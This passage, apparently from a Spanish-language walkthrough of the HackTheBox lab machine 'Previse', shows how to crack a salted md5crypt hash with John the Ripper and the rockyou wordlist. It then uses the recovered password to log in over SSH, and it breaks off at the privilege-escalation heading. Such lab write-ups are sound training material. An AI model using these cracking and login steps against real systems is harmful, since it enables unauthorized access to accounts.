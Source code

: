 En mi terminal, el caracter detrás del segundo $ se convierte, perdiendo su identidad. Esto se debe a que estamos ante un **`Salted Hash`**
El hash correcto es como sigue y lo vamos a romper con **`John The Ripper`** (esto tardará un rato):

```console
p3ntest1ng:~$ echo "$1$🧂llol$DQpmdvnb7EeuO6UaqRItf." > hashfile
p3ntest1ng:~$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hashfile

Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt-long, crypt(3) $1$ (and variants) [MD5 32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
ilovecody112235! (?)
1g 0:00:18:31 DONE (2022-01-08 20:44) 0.000899g/s 6670p/s 6670c/s 6670C/s ilovecody31..ilovecody..
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Tenemos la contraseña con la cual ya podemos probar a conectarnos por SSH.

```console
p3ntest1ng:~$ sshpass -p "ilovecody112235!" ssh m4lwhere@previse.htb
```

![SSH Connection](/assets/images/hackthebox/previse/sshconnection.png)

Ahora vamos con lo realmente importante, la escalada de privilegios para obtener acceso como el usuario root.

## Escalada de Privilegios

![Privillege Scalation](/assets/images/hackthebox/previse/scalation1.png)
